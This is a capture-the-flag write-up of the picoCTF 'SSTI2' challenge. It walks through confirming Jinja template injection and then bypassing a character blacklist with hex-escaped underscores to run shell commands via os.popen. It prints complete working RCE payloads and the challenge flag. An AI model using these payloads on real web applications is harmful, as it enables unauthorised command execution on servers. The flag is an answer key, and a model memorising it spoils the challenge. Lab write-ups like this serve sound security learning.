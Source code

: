 # SSTI2

> I made a cool website where you can announce whatever you want! 
> I read about input sanitization, so now I remove any kind of characters that could be a problem :)
> I heard templating is a cool and modular way to build web apps! Check out my website

## Steps 

1. Given a Web Application Challenge, It's very straight forward looking at the title (SSTI1). However if we have to deduce it from our view, we can check it using Wappalyzer to see what tech stack it was build with. 

![alt text](image.png)

![alt text](image-1.png)

It was build using python and most likely a jinja template. We can try a very generic payload to test it. `{{ 7*7 }}` is our payload and it returns 49

![alt text](image-3.png)

![alt text](image-2.png)

2. Lets Try using our previous payload for similar(prequel) challenge `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}`

![alt text](image.png)

3. Sadly it got blocked(Sanitized), after some trials and errors we know that some of the blacklisted characters are `_ []` but we can substitude that using unicode. 

> `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}`

![alt text](image-1.png)

Since it works, lets try reading the flag

> `{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

![alt text](image-2.png)

Flag: 
> `picoCTF{sst1_f1lt3r_byp4ss_e39c23ee}`